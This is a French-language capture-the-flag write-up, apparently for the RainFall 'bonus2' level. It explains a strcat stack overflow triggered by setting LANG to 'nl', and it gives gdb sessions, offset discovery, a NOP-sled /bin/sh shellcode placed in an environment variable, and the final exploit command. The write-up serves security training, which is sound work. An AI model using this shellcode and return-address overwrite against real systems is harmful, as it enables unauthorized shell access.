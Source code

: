 # Soluce

```
cat - | ./bonus2 $(python -c 'print("A" * 40)') $(python -c 'print("A" * 23 + "\x25\xf3\xff\xbf" + "A" * 30)') 
```

## Description du code

Main :

-   une variable global language est declarer est est initialiser de base a 0
-   3 buffer son declarer dest et v4 d'une taille de 76, v6 d'une taille non defini
-   dest est remplie de zero
-   les 40 premier charactere de argv[1] son copier dans dest
-   les 32 premier charactere de argv[2] son concatener dans dest
-   La veleur de la variable d'environnment LANG est assignet a v6
-   Si v6 est egale a fi, la valeur de language est 1 
-   Si v6 est egale a nl, la valeur de language est 2
-   dest est copier dans v4

-   la fonction greetuser est appeler en lui passant v4 comme argument

GreetUser :

-   3 variable son declarer seulement dest est importante
-   si langage est egale a 1 "Hyvää päivää " est copier dans dest
-   si elle est egale a 2 "Goedemiddag! " est copier dans dest
-   si elle est egale a 3 "Hello " est copier dans dest
-   dest est src son concatener grace a strcat

## Explication 

On va pouvoir faire overflow le dest de la fonction getuser, et atteindre l'adresse de retour pour executer un shellcode, cependant on devra export une variable d'environemment "LANG" il faudra qu'elle est pour valeur "nl" ou "fi". L'idee est que comme argv[1] et argv[2] sont copier dans dest,et si l'on export "nl" dans LANG, la string "Goedemiddag! " sera elle aussi copier dans dest, si l'on met rien dans LANG seulement 2 octet de l'adresse de retour serons overwrite, mais avec "nl" ou "fi dest sera suffisament grande pour overwrite la totalite de l'adresse de retour.

### Pour "fi"
```
bonus2@RainFall:~$ export LANG="fi"
bonus2@RainFall:~$ gdb ./bonus2 

(gdb) run $(python -c 'print("A" * 40)') $(python -c 'print("B" * 40)')
Starting program: /home/user/bonus2/bonus2 $(python -c 'print("A" * 40)') $(python -c 'print("B" * 40)')

Single stepping until exit from function main,
which has no line number information.
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

### Pour ""

```
bonus2@RainFall:~$ export LANG=""
bonus2@RainFall:~$ gdb ./bonus2 
(gdb) run $(python -c 'print("A" * 40)') $(python -c 'print("B" * 40)')
Starting program: /home/user/bonus2/bonus2 $(python -c 'print("A" * 40)') $(python -c 'print("B" * 40)')
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x08004242 in ?? ()
```

### Pour "nl"

```
bonus2@RainFall:~$ export LANG="nl"
bonus2@RainFall:~$ gdb ./bonus2 
(gdb) run $(python -c 'print("A" * 40)') $(python -c 'print("B" * 40)')
Starting program: /home/user/bonus2/bonus2 $(python -c 'print("A" * 40)') $(python -c 'print("B" * 40)')
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) info r 
(...)
eip            0x42424242       0x42424242
(...)
```

### Payload

Maintenant que l'on sait, que l'adresse de retour est ecrasé, il nous suffit d'obtenir l'offset est d'y mettre un shellcode :

```
bonus2@RainFall:~$ export LANG="nl"
```
----------------------------------------------------------------
#### Shellcode
----------------------------------------------------------------
```
export SHELLCODE=$(python -c 'print("\x90" * 2000 + "1\xc0\xb0\xbe\xcd\x801\xc91\xd2Qhn/shh//bi\x89\xe3j\x0bX\xcd\x80")')

bonus2@RainFall:~$ gdb ./bonus2 
(gdb) b main
Breakpoint 1 at 0x804852f
(gdb) run 
Starting program: /home/user/bonus2/bonus2 

Breakpoint 1, 0x0804852f in main ()
(gdb) call (char *) getenv("SHELLCODE")
$1 = 0xbffff132 "\220\220\220\220\220\220\220\220\220"...
```
0xbffff132 + 500 (pour atterir dans le nop sled) = 0xbffff326

----------------------------------------------------------------
#### Offset
----------------------------------------------------------------
(gdb) run $(python -c 'print("A" * 40)') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab
5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/bonus2/bonus2 $(python -c 'print("A" * 40)') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Breakpoint 1, 0x0804852f in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x38614137 in ?? ()
(...)
eip            0x38614137       0x38614137
(...)

38614137 -> 8aA7 -> 7Aa8 -> 23

----------------------------------------------------------------
##### Final Payload
----------------------------------------------------------------
(Argv[1] = [Padding de 40]) (Argv[2] = [Padding de 23] + [Adress du shellcode] + [Padding pour overflow])

cat - | ./bonus2 $(python -c 'print("A" * 40)') $(python -c 'print("A" * 23 + "\x26\xf3\xff\xbf" + "A" * 30)') 
